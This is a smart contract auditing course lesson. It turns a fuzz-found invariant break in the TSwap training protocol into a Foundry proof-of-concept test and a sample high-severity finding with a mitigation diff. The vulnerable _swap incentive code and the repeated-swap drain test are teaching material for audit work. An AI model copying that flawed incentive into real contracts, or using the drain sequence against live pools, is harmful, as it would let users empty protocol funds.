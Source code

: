 ```yaml
---
title: Invariant Break Write up and PoC
---
```


---

### Invariant Break Write-up

This is the big one! Don't worry we _will_ go through the `proof of code` on this one together, we've already written most of the logic for this one.

We should be able to even re-run our test to remind ourselves of the issue:

```bash
forge test --mt statefulFuzz_constantProductFormulaStaysTheSameX
```

![invariant-break-write-up-and-poc1](/security-section-5/45-invariant-break-write-up-and-poc/invariant-break-write-up-and-poc1.png)

There it is. Let's get the `proof of code` out of the way first!

It's important to note when fuzz testing that we shouldn't just provide a sequence output or the fuzz test as a `proof of code/concept`. These can be difficult to understand and set up. We should be using the output of our fuzz tests to write our own PoC - often a unit test specifically stepping through a problematic sequence of executions.

I'll be modifying the `testDepositSwap` unit test provided by the TSwap protocol within `TSwapPool.T.sol`.

```js
function testDepositSwap() public {
    vm.startPrank(liquidityProvider);
    weth.approve(address(pool), 100e18);
    poolToken.approve(address(pool), 100e18);
    pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
    vm.stopPrank();

    vm.startPrank(user);
    poolToken.approve(address(pool), 10e18);
    uint256 expected = 9e18;

    pool.swapExactInput(poolToken, 10e18, weth, expected, uint64(block.timestamp));
    assert(weth.balanceOf(user) >= expected);
}
```

We know that the `fee on transfer` issue arises after 10 swaps, so our goal will be to recreate our fuzz sequence, replicating 10 swaps and resulting in our error.

Here's the underlying \_swap function for reference:

<details>
<summary>TSwapPool.sol::_swap</summary>

```js
function _swap(IERC20 inputToken, uint256 inputAmount, IERC20 outputToken, uint256 outputAmount) private {
    if (_isUnknown(inputToken) || _isUnknown(outputToken) || inputToken == outputToken) {
        revert TSwapPool__InvalidToken();
    }

    // @Audit-High - Breaks protocol invariant
    swap_count++;
    if (swap_count >= SWAP_COUNT_MAX) {
        swap_count = 0;
        outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
    }
    emit Swap(msg.sender, inputToken, inputAmount, outputToken, outputAmount);

    inputToken.safeTransferFrom(msg.sender, address(this), inputAmount);
    outputToken.safeTransfer(msg.sender, outputAmount);
}
```

</details>


Alright, we can begin by giving the test a unique name. It looks like the first half of this function is handling deposits to add liquidity to the pool, we can keep that in.

```js
function testInvariantBroken() public {
    vm.startPrank(liquidityProvider);
    weth.approve(address(pool), 100e18);
    poolToken.approve(address(pool), 100e18);
    pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
    vm.stopPrank();
}
```

In the second half of this test we can now replicate what our handler was doing. We need to define starting values and expected changes for our token pools.

```js
function testInvariantBroken() public {
    vm.startPrank(liquidityProvider);
    weth.approve(address(pool), 100e18);
    poolToken.approve(address(pool), 100e18);
    pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
    vm.stopPrank();

    uint256 outputWeth = 1e17;
    int256 startingX = int256(weth.balanceOf(address(pool)));
    int256 expectedDeltaX = int256(outputWeth) * -1;
}
```

Our handler has an example we can now implement of a single swap being executed. Let's move that into our new unit test. Additionally, we can carry over our calculations for `endingX` and `actualDeltaX` as well as add our assert statement.

> **Note:** `TSwapPool.t.sol` uses `user` instead of `swapper` as we have in our handler.

```js
function testInvariantBroken() public {
    vm.startPrank(liquidityProvider);
    weth.approve(address(pool), 100e18);
    poolToken.approve(address(pool), 100e18);
    pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
    vm.stopPrank();

    uint256 outputWeth = 1e17;
    int256 startingX = int256(weth.balanceOf(address(pool)));
    int256 expectedDeltaX = int256(outputWeth) * -1;

    vm.startPrank(user);
    poolToken.approve(address(pool), type(uint256).max);
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    vm.stopPrank();

    uint256 endingX = weth.balanceOf(address(pool));
    actualDeltaX = int256(endingX) - int256(startingX);

    assertEq(actualDeltaX, expectedDeltaX);
}
```

Now, if we run this test, performing a single swap, we would expect this to pass. Try it now.

```bash
forge test --mt testInvariantBroken
```

![invariant-break-write-up-and-poc2](/security-section-5/45-invariant-break-write-up-and-poc/invariant-break-write-up-and-poc2.png)

Of course this would pass, we need 10 swaps in order for our invariant to break. Let's implement that logic next.

All we really need to do is make sure our user has enough `poolToken` for the swaps and perform a bunch of them in a row. We can adjust the assignments for our startingX and expectedDeltaX variables to just before the final swap.

```js
function testInvariantBroken() public {
    vm.startPrank(liquidityProvider);
    weth.approve(address(pool), 100e18);
    poolToken.approve(address(pool), 100e18);
    pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
    vm.stopPrank();

    uint256 outputWeth = 1e17;

    vm.startPrank(user);
    poolToken.approve(address(pool), type(uint256).max);
    poolToken.mint(user, 100e18);
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));

    int256 startingX = int256(weth.balanceOf(address(pool)));
    int256 expectedDeltaX = int256(outputWeth) * -1;

    pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
    vm.stopPrank();

    int256 endingX = int256(weth.balanceOf(address(pool)));
    int256 actualDeltaX = int256(endingX) - int256(startingX);

    assertEq(actualDeltaX, expectedDeltaX);
}
```

If we run this unit test now...

```bash
forge test --mt testInvariantBroken -vvvv
```

![invariant-break-write-up-and-poc3](/security-section-5/45-invariant-break-write-up-and-poc/invariant-break-write-up-and-poc3.png)

Boom! We have our PoC which can be pasted into our report, which I've written below. Challenge yourself to write the other portions of this write-up and then compare to my included example:

<details>
<summary>[H-4] In TSwapPool::_swap the extra tokens given to users after every swapCount breaks the protocol invariant of x * y = k</summary>

### [H-4] In `TSwapPool::_swap` the extra tokens given to users after every `swapCount` breaks the protocol invariant of `x * y = k`

**Description:** The protocol follows a strict invariant of `x * y = k`. Where:

- `x`: The balance of the pool token
- `y`: The balance of WETH
- `k`: The constant product of the two balances

This means, that whenever the balances change in the protocol, the ratio between the two amounts should remain constant, hence the `k`. However, this is broken due to the extra incentive in the `_swap` function. Meaning that over time the protocol funds will be drained.

The follow block of code is responsible for the issue.

```javascript
swap_count++;
if (swap_count >= SWAP_COUNT_MAX) {
  swap_count = 0;
  outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
}
```

**Impact:** A user could maliciously drain the protocol of funds by doing a lot of swaps and collecting the extra incentive given out by the protocol.

Most simply put, the protocol's core invariant is broken.

**Proof of Concept:**

1. A user swaps 10 times, and collects the extra incentive of `1_000_000_000_000_000_000` tokens
2. That user continues to swap until all the protocol funds are drained

<details>
<summary>Proof Of Code</summary>

Place the following into `TSwapPool.t.sol`.

```javascript

    function testInvariantBroken() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 outputWeth = 1e17;

        vm.startPrank(user);
        poolToken.approve(address(pool), type(uint256).max);
        poolToken.mint(user, 100e18);
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));

        int256 startingY = int256(weth.balanceOf(address(pool)));
        int256 expectedDeltaY = int256(-1) * int256(outputWeth);

        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        vm.stopPrank();

        uint256 endingY = weth.balanceOf(address(pool));
        int256 actualDeltaY = int256(endingY) - int256(startingY);
        assertEq(actualDeltaY, expectedDeltaY);
    }
```

</details>

**Recommended Mitigation:** Remove the extra incentive mechanism. If you want to keep this in, we should account for the change in the x \* y = k protocol invariant. Or, we should set aside tokens in the same way we do with fees.

```diff
-        swap_count++;
-        // Fee-on-transfer
-        if (swap_count >= SWAP_COUNT_MAX) {
-            swap_count = 0;
-            outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
-        }
```

</details>


### Wrap Up

We did it! Great work, we're almost done. Let's finish our report up with our final write-ups in the next lesson!
